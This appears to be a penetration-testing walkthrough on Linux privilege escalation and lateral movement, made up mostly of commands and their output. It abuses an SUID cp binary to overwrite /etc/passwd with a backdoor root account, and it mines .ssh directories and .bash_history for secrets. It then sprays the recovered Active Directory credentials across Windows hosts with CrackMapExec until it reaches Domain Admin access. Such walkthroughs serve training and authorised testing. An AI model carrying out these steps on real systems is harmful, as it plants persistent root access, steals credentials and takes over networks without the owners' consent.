



One of the first things you should do with a non-root *nix account is check if there are any SUID binaries. Search the entire / directory.
find / -perm -u=s 2>/dev/null
/sbin/mount.cifs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/bin/at
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newgidmap
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/bin/ping6
/bin/fusermount
/bin/umount
/bin/ping
/bin/su
/bin/mount
/bin/cp
Now don’t immediatly get excited when you see these, many SUID binaries exist on *nix system by default and their exploitability has been thouroughly explored and discounted. That said you should become familiar with ones that exist by default so you can quickly identify ones that stick out, such as /bin/cp!
ls -lah /bin/cp
-rwsr-sr-x 1 root root 148K Feb 18 2016 /bin/cp
There are several ways to pull off this attack, essentially what we can do is leverage our SUID cp command to overwrite /etc/passwd with a new version containing everything that was in the original file plus a backdoor root account that we control.
cd /tmp
cat /etc/passwd > passwd-old
cat /etc/passwd > passwd-new
openssl passwd -1 -salt realhax R3alH@x!
$1$realhax$UFuaLnv22mE1WHpKYr/F30
echo 'realhax:$1$realhax$UFuaLnv22mE1WHpKYr/F30:0:0:root:/root:/bin/bash' >> passwd-new
cp passwd-new /etc/passwd
Now you should be able to SSH directly into this machine with whatever username and password you specified during your openssl command.

Linux/UNIX .dot files are notorious for storing juicy secrets like usernames and passwords.
One solid post exploitation procedure is to cd into every users home directory and run ls -lah to reveal
all of that users’ .dot files and .dot directories.
total 40K
drwx------ 6 root root 4.0K Apr 7 18:32 .
drwxr-xr-x 23 root root 4.0K Jan 26 08:41 ..
-rw------- 1 root root 464 Apr 7 12:09 .bash_history
-rw-r--r-- 1 root root 3.1K Oct 22 2015 .bashrc
drwx------ 2 root root 4.0K Apr 7 18:32 .cache
drwxr-xr-x 2 root root 4.0K Jan 28 12:53 .nano
-rw-r--r-- 1 root root 148 Aug 17 2015 .profile
drwxr-xr-x 2 root root 4.0K Apr 7 12:09 scripts
drwx------ 2 root root 4.0K Jan 28 13:00 .ssh
-rw------- 1 root root 715 Apr 7 12:09 .viminfo
root@kepler-linsrv14:~#
Right away you should be interested in the .ssh directory as it may contain an SSH private key which you could use to access additional hosts.
By far the most interesting .dot file in my humble opinion is .bash_history
cat .bash_history
cat .bash_history
cat ~/.bash_history
ls -lah
cd
cd /etc/
ls
grep net .
grep net *
cd
ls -lah
cd .ssh/
ls
ls -lah
cd ..
ls
mkdir scripts
cd scripts/
ls
vim checkdomain.sh
ls -lah
cd
clear
cd /etc/
cd network
ls
cat i
cat interfaces
cd
cd scripts/
ls
echo 'username:neil.degrasse' >> checkdomain.sh
echo 'password:@mbrosia1543!_!' >> checkdomain.sh
vim checkdomain.sh
chmod 755 checkdomain.sh
./checkdomain.sh
rm checkdomain.sh
ls -lah
ls -lah /bin/cp
exit

Take a look at the ~/scripts directory. The root user appears to have since deleted the checkdomain.sh script but it seems to have contained credentials at one point in time. Based on the name of the script I would guess they are Active Directory credentials. Let’s try them with CrackMapExec.
First try them on a single machine to make sure they are valid. If they work, try them on all your Windows targets to see what sort of access they have.
cme smb hosts/windowxs.txt -u neil.degrasse -p '@mbrosia1543!_!'
EINSTEIN-DC01 [*] Windows 10.0 Build 20348 x64 (name:EINSTEIN-DC01) (domain:Sciencerocks.local) (signing:True) (SMBv1:False)
EINSTEIN-DC01 [+] Sciencerocks.local\neil.degrasse:@mbrosia1543!_! (Pwn3d!)
KEPLER-LINSRV14 [*] Windows 6.1 (name:KEPLER-LINSRV14) (domain:) (signing:False) (SMBv1:True)
FEYNMAN-WINSRV1 [*] Windows 10.0 Build 20348 x64 (name:FEYNMAN-WINSRV1) (domain:Sciencerocks.local) (signing:False) (SMBv1:False)
HAWKINGWINSRV19 [*] Windows 10.0 Build 20348 x64 (name:HAWKINGWINSRV19) (domain:Sciencerocks.local) (signing:False) (SMBv1:False)
KEPLER-LINSRV14 [+] \neil.degrasse:@mbrosia1543!_!
FEYNMAN-WINSRV1 [+] Sciencerocks.local\neil.degrasse:@mbrosia1543!_! (Pwn3d!)
HAWKINGWINSRV19 [+] Sciencerocks.local\neil.degrasse:@mbrosia1543!_! (Pwn3d!)
Looks like these credentials have Domain Admin privileges!
